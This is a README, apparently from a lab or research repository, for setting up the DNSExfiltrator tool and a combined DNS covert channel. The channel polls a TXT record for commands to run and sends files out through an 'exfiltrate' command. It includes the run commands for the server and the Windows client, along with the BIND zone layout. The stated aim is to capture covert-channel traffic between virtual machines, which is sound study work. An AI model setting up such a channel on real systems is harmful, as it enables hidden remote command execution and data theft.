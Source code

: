 # DNSExfiltrator

This code is from the following repository. It contains much more in-depth documentation.

https://github.com/Arno0x/DNSExfiltrator

For our purposes, the aim is to use the DNS exfiltrator code to capture traffic for a DNS covert channel. The current set up is to use two virutal machines - one running the Python server script and another (Windows) running the client exe.

To run the server:

```sudo python3 dnsexfiltrator.py -d [domain] -p [passowrd]```

To run the client:

```.\dnsExfiltrator.exe [file] [domain] [password] -b32 s=[server ip address]```

The server acts as a DNS server - it is not required to configure one seperately. The client side transfers the given file in the format of an ecrypted zip file to the server through DNS text record requests. Currently, their only exists a client side script for Windows.

# Combined Covert Channel

There is also supported a combined covert channel which implements exfiltration over DNS, but also a more standard C2.

The setup for this is detailed below.

- DNS bind server. All the relavent configuration files are present in this repository. Essentially, there is a normal zone for normal DNS operation (netres.com), another zone for C2 operation (c2.netres.com) with edit permissions enabled, and a forward zone to be used for data exfiltration (exfil.netres.com).  

- Client side script. Use ```python covert_dns.py``` to start the client side script. This script continually polls the server at the message.c2.netres.com domain endpoint for new commands to run.

- The server side script. Continually asks the user for commands to issue to the client. Commands are issued to the client by updating the message.c2.netres.com text record. The server updates the record for ten seconds giving the client enough time to read the command, and then resets the record to be empty.

- The exfiltration command can be also be given from the server script with ```exfiltrate [file name]```. This will cause the client to run the dnsExfiltrator.exe program, which makes a request to exfil.netres.com. 

- The server side exfiltration script also needs to be running with ```sudo python3 dnsexfiltrator.py -d exfil.netres.com -p password```. In the combined covert channel, exfiltration works by having the main bind server forward all requests to the exfil.netres.com zone to this script, which is running its own DNS server on 127.0.0.1:53535. This allows us to have a normal BIND server for other purposes, while also running the custom DNS server to serve the exfiltration commands.

## Added Details

In order to function, the C2 server side python scripts needs to be able to edit the message.c2.netres.com text record. If you are trying to set this up yourself and getting a ```SERVFAIL```, check ```journalctl -xe``` for the error. It might be that BIND does not have permissions in the zone directory to create the db.c2.netres.com.jrl file, which it needs in order to edit the DNS records.

Additionally, currently there is no way for the client to send updates back to the server (i.e. command run successfully or simple command output). This is a work in progress. To properly read commands, the the client and server both operate on 10 seconds sleep timers. The server puts its command into the message.c2.netres.com text record for only 10 seconds before clearing it. Conversely, the client reads from this text record once every 10 seconds. This allows semi-reliable communcation of the commands without full two-way communication.

